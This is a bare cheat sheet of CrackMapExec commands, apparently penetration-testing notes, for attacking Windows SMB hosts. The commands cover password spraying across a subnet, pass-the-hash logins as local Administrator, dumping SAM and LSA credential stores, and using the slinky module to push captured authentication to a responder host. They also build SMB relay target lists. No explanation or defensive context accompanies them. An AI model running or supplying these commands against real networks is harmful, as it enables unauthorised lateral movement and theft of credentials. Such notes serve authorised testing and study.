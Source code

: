 crackmapexec

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
crackmapexec smb 10.0.0.0/24 -u username -d domain -p Password
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
crackmapexec smb 10.0.0.0/24 -u username -H hash --local-auth
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
crackmapexec smb <target ip> -u Guest -p “” -M slinky -o server=responder_ip name=some_unique_name
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~
crackmapexec smb <CIDR> --gen-relay-list targets.txt
~~~

~~~
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth
~~~

~~~
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
~~~

~~~
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
~~~

~~~
crackmapexec smb ../scans/nmap-grep-[date]/smb-hosts.txt --gen-relay-list cme_relay.txt | tee cme.out
~~~